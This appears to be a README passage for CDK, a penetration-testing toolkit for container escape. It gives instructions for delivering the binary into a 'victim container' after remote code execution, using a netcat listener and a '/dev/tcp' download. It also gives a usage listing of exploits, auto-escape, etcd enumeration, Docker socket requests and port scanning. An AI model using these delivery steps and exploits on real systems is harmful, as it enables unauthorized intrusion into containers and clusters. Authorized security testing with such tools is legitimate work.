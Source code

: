 ## Installation/Delivery

Download latest release in https://github.com/cdk-team/CDK/releases/

Drop executable files into the target container and start testing.

### TIPS: Deliver CDK into target container in real-world penetration testing

If you have an exploit that can upload a file, then you can upload CDK binary directly.

If you have a RCE exploit, but the target container has no `curl` or `wget`, you can use the following method to deliver CDK:

1. First, host CDK binary on your host with public IP.
```
(on your host)
nc -lvp 999 < cdk
```

2. Inside the victim container execute
```
cat < /dev/tcp/(your_public_host_ip)/(port) > cdk
chmod a+x cdk
```

## Usage
```
Usage:
  cdk evaluate [--full]
  cdk run (--list | <exploit> [<args>...])
  cdk <tool> [<args>...]

Evaluate:
  cdk evaluate                              Gather information to find weakness inside container.
  cdk evaluate --full                       Enable file scan during information gathering.

Exploit:
  cdk run --list                            List all available exploits.
  cdk run <exploit> [<args>...]             Run single exploit, docs in https://github.com/cdk-team/CDK/wiki

Auto Escape:
  cdk auto-escape <cmd>                     Escape container in different ways then let target execute <cmd>.

Tool:
  vi <file>                                 Edit files in container like "vi" command.
  ps                                        Show process information like "ps -ef" command.
  nc [options]                              Create TCP tunnel.
  ifconfig                                  Show network information.
  kcurl <path> (get|post) <uri> <data>      Make request to K8s api-server.
  ectl <endpoint> get <key>                 Unauthorized enumeration of ectd keys.
  ucurl (get|post) <socket> <uri> <data>    Make request to docker unix socket.
  probe <ip> <port> <parallel> <timeout-ms> TCP port scan, example: cdk probe 10.0.1.0-255 80,8080-9443 50 1000

Options:
  -h --help     Show this help msg.
  -v --version  Show version.
```

